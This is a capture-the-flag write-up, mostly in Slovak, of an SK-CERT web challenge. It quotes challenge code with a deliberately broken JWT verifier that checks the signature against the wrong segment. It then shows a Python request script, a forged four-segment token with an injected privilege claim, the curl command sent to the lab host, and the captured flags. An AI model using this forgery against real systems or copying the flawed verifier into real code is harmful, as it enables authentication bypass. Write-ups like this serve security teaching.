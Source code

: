 # Zadanie

EN: There seems to be an endpoint that is only accessible by a privileged user. Can you find a way to access it?

SK: Zdá sa, že existuje koncový bod, ku ktorému má prístup iba privilegovaný používateľ. Dokážeš nájsť spôsob, ako sa k nemu dostať?

## Riešenie

Z index,js je zrejmé, že pôjde zrejme o api endpoint /api/secret-note, ktorý nám vráti env premennú a tu už sa používa auth middleware, kde potrebujem validný token v ktorom je `"is_d4rk_pr1nc3ss":True`, ale keď sa pozrieme bližšie na login endpoint, tak pri úspešnom logine a nám pošle aj cookies s tokenom, ktorý sa nám zrejme zíde.

```javascript
app.post("/api/login", async (req, res) => {
  try {
    const { username, password } = req.body;
    const { rows } = await dbAsync.query(
      "SELECT id, username, verified FROM users WHERE username = $1 AND password = $2",
      [username, password]
    );

    if (rows.length === 0) {
      return res.status(401).json({ error: "Invalid credentials" });
    }

    const user = rows[0];
    if (!user.verified) {
      return res
        .status(401)
        .json({ error: "The Dark Council has not approved you yet" });
    }

    const token = createToken({
      id: user.id,
      username: user.username,
    });

    res.cookie("token", token, {
      httpOnly: true,
      secure: process.env.NODE_ENV === "production",
      sameSite: "strict",
    });

    return res.json({
      success: true,
      welcome_msg: process.env.LOGIN_WELCOME_MESSAGE,
    });
  } catch (err) {
    return res.status(500).json({ error: "Login failed" });
  }
});

function authMiddleware(req, res, next) {
  const token = req.cookies.token;
  if (!token) return res.status(401).json({ error: "No token provided" });

  const payload = verifyToken(token);
  if (!payload) {
    return res.status(401).json({ error: "Invalid token" });
  }

  req.user = payload;
  next();
}

app.get("/api/secret-note", authMiddleware, async (req, res) => {
  if (req.user.is_d4rk_pr1nc3ss) {
    return res.send(process.env.DARK_PRINCESS_SECRET);
  }
  return res.send("You are not the Dark Princess");
});
```

Upravíme teda skript z predošlej úlohy, aby sme do výstupu vypísali aj hlavičky.

```python
import httpx
import asyncio
from datetime import datetime

def log(msg):
    print(f"[{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3]}] {msg}")

headers = {
    "Authorization": "Basic cHIxbmNlc3M6U0stQ0VSVHswZmZfYnlfNF9zMW5nbGVfc2w0c2hfZjgzNmE4YjF9",
    "Content-Type": "application/json"
}

data_register = {
    "username": "pony",
    "password": "pony",
    "email": "pony@pony.pony"
}

data_login = {
    "username": "pony",
    "password": "pony"
}

def print_response(resp, label):
    log(f"✅ [{label}] {resp.status_code}")
    print(resp.text)
    print(f"📨 [{label}] Headers:")
    for k, v in resp.headers.items():
        print(f"  {k}: {v}")
    log(f"✅ [{label}] Hotovo\n")

async def send_register(client):
    log("➡️  [REGISTER] Posielam POST /register")
    resp = await client.post("http://exp.cybergame.sk:7000/secretbackend/api/register",
                             json=data_register, headers=headers)
    print_response(resp, "REGISTER")

async def send_login(client, delay=0.3):
    await asyncio.sleep(delay)
    log(f"➡️  [LOGIN] Posielam POST /login po {int(delay * 1000)} ms")
    resp = await client.post("http://exp.cybergame.sk:7000/secretbackend/api/login",
                             json=data_login, headers=headers)
    print_response(resp, "LOGIN")

async def main():
    async with httpx.AsyncClient() as client:
        await asyncio.gather(
            send_register(client),
            send_login(client, delay=0.3)
        )

asyncio.run(main())
```

A vráti nám skutočne aj:

```
set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImQ0YjQxNzViLTZhM2MtNDE0Mi05MzdmLTc5ZDIyNTEwMWJlYyIsInVzZXJuYW1lIjoicG9ueSJ9.JZ1haLrzEx0J3horEnL0j2B8JezL7pe9rrmbv3ShwW4%3D; Path=/; HttpOnly; SameSite=Strict
```

po dekódovaní

```
{"alg":"HS256","typ":"JWT"}.{"id":"d4b4175b-6a3c-4142-937f-79d225101bec","username":"pony"}.PODPIS
```

chýba nam tam však to `is_d4rk_pr1nc3ss`

Backend používa pre auth middleware script jwt.js, pozrieme sa bližšie.

```javascript
const crypto = require("crypto");
const { v4 } = require("uuid");

const JWT_SECRET = v4();

function createToken(payload) {
  const base64Payload = Buffer.from(JSON.stringify(payload)).toString("base64");
  const signature = crypto
    .createHmac("sha256", JWT_SECRET)
    .update(base64Payload)
    .digest("base64");

  return `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.${base64Payload}.${signature}`;
}

function verifyToken(token) {
  const parts = token.split(".");
  if (parts.length < 3) return null;

  const payload = parts[1];
  const signature = parts[parts.length - 1];

  const expectedSignature = crypto
    .createHmac("sha256", JWT_SECRET)
    .update(parts[parts.length - 2])
    .digest("base64");

  if (signature === expectedSignature) {
    return JSON.parse(Buffer.from(payload, "base64").toString());
  }
  return null;
}

module.exports = {
  createToken,
  verifyToken,
};
```

Zaujímavá je funkcia verifyToken, ktorá overuje, či token nemá menej častí ako 3, ako payload akceptuje druhú časť zľava `payload = parts[1]` a ako podpis `signature = parts[parts.length - 1]` vezme poslednú hodnotu (parts.lenght vráti číslo, ale index je od nuly, preto -1), ale už to zaváňa tým, že môžeme poslať token z viac ako tromi časťami.

```javascript
const expectedSignature = crypto
    .createHmac("sha256", JWT_SECRET)
    .update(parts[parts.length - 2])
    .digest("base64");
```

A táto časť to dokazuje..  verify token, vezme druhú časť ako payload, poslednú časť ako podpis a ten podpis overuje, či je platný pre predposlednú časť a nie tú druhú.. Takže keď pošlem ten istý token čo som dostal, ale medzi hlavičku a originálny payload vložím môj, malo by to prejsť..

Takže náš token by mal vyzerať  takto

`HEADER.EVIL_PALOAD.AKYKOLVEK_PAYLOAD_KU_KTOREMU_POZNAME_PLATNY_PODPIS.TEN_PLATNY_PODPIS`

`H.EVIL_P.P.S`

EVIL_P bude `{"is_d4rk_pr1nc3ss":true}` do base_64 `eyJpc19kNHJrX3ByMW5jM3NzIjp0cnVlfQ`

Nas forgenuty jwt

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc19kNHJrX3ByMW5jM3NzIjp0cnVlfQ.eyJpZCI6ImQ0YjQxNzViLTZhM2MtNDE0Mi05MzdmLTc5ZDIyNTEwMWJlYyIsInVzZXJuYW1lIjoicG9ueSJ9.JZ1haLrzEx0J3horEnL0j2B8JezL7pe9rrmbv3ShwW4=
```

pošlem ako curl

```bash
curl -X GET "http://exp.cybergame.sk:7000/secretbackend/api/secret-note" -H "Authorization: Basic cHIxbmNlc3M6U0stQ0VSVHswZmZfYnlfNF9zMW5nbGVfc2w0c2hfZjgzNmE4YjF9" -H "Content-Type: application/json" --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc19kNHJrX3ByMW5jM3NzIjp0cnVlfQ.eyJpZCI6ImQ0YjQxNzViLTZhM2MtNDE0Mi05MzdmLTc5ZDIyNTEwMWJlYyIsInVzZXJuYW1lIjoicG9ueSJ9.JZ1haLrzEx0J3horEnL0j2B8JezL7pe9rrmbv3ShwW4%3D"
```

Vráti mi

> They fear the night, yet they do not understand its power. The fools bask in the daylight, blind to what lurks beyond the stars. But I see. I remember. And soon, they will too. The throne was never meant for the sun alone. The time will come. I must be patient. SK-CERT{1_w1ll_rul3_th3_n1ght_4nd_th3_d4y}

## Vlajka

```
SK-CERT{1_w1ll_rul3_th3_n1ght_4nd_th3_d4y}
```
